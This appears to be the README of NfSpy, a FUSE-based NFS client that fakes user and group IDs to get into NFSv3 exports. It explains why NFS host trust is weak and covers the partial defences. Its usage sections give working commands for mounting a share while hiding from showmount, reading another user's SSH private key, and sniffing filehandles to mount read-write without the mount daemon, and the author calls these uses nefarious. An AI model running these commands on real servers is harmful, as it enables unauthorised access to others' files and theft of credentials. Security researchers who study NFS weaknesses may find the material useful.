 NfSpy - an ID-spoofing NFS client
=================================
by [Daniel Miller](https://github.com/bonsaiviking)

NfSpy is a library/program that uses the Filesystem in Userspace (FUSE)
library to automate the falsification of NFS credentials when mounting an NFS
share.

Vulnerability exploited
-----------------------

NFS before version 4 is reliant upon host trust relationships for
authentication. The NFS server trusts any client machines to authenticate users
and assign the same user IDs (UIDS) that the shared filesystem uses. This works
in NIS, NIS+, and LDAP domains, for instance, but only if you know the client
machine is not compromised, or faking its identity. This is because the only
authentication in the NFS protocol is the passing of the UID and GID (group
ID). There are a few things that can be done to enhance the security of NFS,
but many of them are incomplete solutions, and even with all three listed here,
it could still be possible to circumvent the security measures.

### Squash root

The server or the share ("export" in NFS lingo) can be configured squash\_root,
meaning that any requests that come in claiming to be UID or GID 0 (root) will
be treated like the nobody user, or equivalent on the system. This does not
prevent an attacker from spoofing any other UID/GID combo, but will protect the
most sensitive info and configs on the export.

### nfs\_portmon

Another setting that can be enabled is nfs\_portmon, which denies requests
coming from source ports outside of the 513-1024 range. Since only root can
(usually) allocate these ports, this prevents a regular user on a trusted
machine from writing and using their own NFS client that fakes UID/GID. It does
nothing to stop a rogue host, a user with su permissions, or a root-level
compromised machine from doing the same thing.

### Export restrictions

Shares/exports can be controlled so that only certain machines can access them.
These Access Control Lists can consist of:

* IP addresses (e.g. 192.168.1.34)
* IP prefixes (e.g. @192.168.1)
* hostnames (e.g. server1.mydom.nis)
* host lists (e.g. @trusted\_hosts)
* "everyone"

The best configuration would be to use a host list, since querying the nfs
daemon will just give the name of the list, not which addresses or names it
contains. Next in line would be IP addresses or hostnames, since those are more
difficult to spoof. IP prefixes and "everyone" are indications of insecurity,
since there is little or no restriction on what addresses can connect.

Using NfSpy
-----------

A list of options can be seen by running

    nfspy --help

### Example

There is an NFS server on 192.168.1.124.

    $ showmount -e 192.168.1.124
    Export list for 192.168.1.124:
    /home (everyone)

Mount up the share. Using sudo lets you bind to a privileged port, and the 
allow\_other option lets any user use the filesystem. The other new option here
is "hide", which immediately "unmounts" the share on the server, but keeps the 
filehandle it got. This hides your presence from anyone using showmount -a

    $ sudo nfspy -o server=192.168.1.124:/home,hide,allow_other,ro,intr /mnt

Enjoy your newfound freedom!

    $ cd /mnt
    /mnt$ ls -l
    drwx------ 74 8888 200 4096 2011-03-03 09:55 smithj
    /mnt$ cd smithj
    /mnt/smithj$ cat .ssh/id.rsa
    -----BEGIN RSA PRIVATE KEY-----
    Proc-Type: 4,ENCRYPTED
    DEK-Info: DES-EDE3-CBC,30AEB543E512CA19
    <snip>

To unmount, use fusermount:

    $ sudo fusermount -u /mnt

### Advanced example

There is an NFS server on 192.168.1.124. Portmap is blocked, so you can't get a list of shares, but you can sniff the network traffic.

    $ sudo tshark -n -i eth0 -T fields -e nfs.fhandle
    Running as user "root" and group "root". This could be dangerous.
    Capturing on eth0
    01:00:04:00:01:00:22:00:e5:03:d8:9d:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00
    
    ^C3 packets captured

Now use the dirhandle and getroot mount options to avoid using the mount
daemon, and use the nfsport option to avoid using the portmapper, traversing
up the directory tree to the root of the export. 

    $ sudo nfspy -o rw,server=192.168.1.124:,nfsport=2049/udp,dirhandle=01:00:04:01:01:00:22:00:e5:03:d8:9d:07:00:22:00:15:83:74:d5:00:00:00:00:00:00:00:00:00:00:00:00,getroot mnt

Note that we didn't provide a path to mount, since all we know is the nfs
filehandle.


BUGS
----

* Write access is beta. It has worked in my tests on a handful of systems,
  but could use more testing. Because of this, NfSpy defaults to mounting
  ro. Specify the rw mount option to change this.

* NfSpy does not work with the standard lockd and statd services, which could
  cause problems with writing to files. For read-only, though, and most
  nefarious uses for which it was intended, this shouldn't be a problem.

* NfSpy only supports NFSv3 at the moment. Future versions may intelligently
  choose a NFS version.
